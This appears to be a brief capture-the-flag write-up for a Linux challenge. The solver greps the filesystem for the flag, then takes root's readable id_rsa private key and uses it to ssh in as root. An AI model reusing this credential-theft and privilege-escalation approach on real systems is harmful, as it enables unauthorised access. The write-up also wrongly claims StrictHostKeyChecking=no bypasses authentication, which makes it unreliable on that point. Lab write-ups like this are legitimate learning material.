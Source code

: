 # Linux 02
```bash
nc 192.168.10.7 9999
Where am I?
```

root `.ssh` folder is readable, [`id_rsa`](root_id_rsa) aswell

no success:
```bash
$ find / -type f -exec grep -Hn 'cyberctfd' {} \;
$ find / -type f -exec grep -Hn 'Y3liZXJj' {} \;
```

its not `cyberctfd{/home/ctf}`


no helpful env variables
```bash
$ printenv
USER=ctf
SHLVL=1
HOME=/home/ctf
OLDPWD=/home/ctf
PAGER=less
PS1=\h:\w\$ 
LOGNAME=ctf
LC_COLLATE=C
PATH=/bin:/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin
LANG=C.UTF-8
SHELL=/bin/ash
PWD=/home/ctf
CHARSET=UTF-8
```
As its said before the content from root is readable so in there we have the id_rsa

i tried to ssh to the machine with his ip 192.168.10.7 
ssh root@192.168.10.7 -i id_rsa -o StrictHostKeyChecking=no 
The flag -o (options) StrictHostKeyChecking=no allow us to go throw the autentitaction
It had the following error 
Pseudo-terminal will not be allocated because stdin is not a terminal.
So instead of that i tried with the root@localhost instead and now you are connected
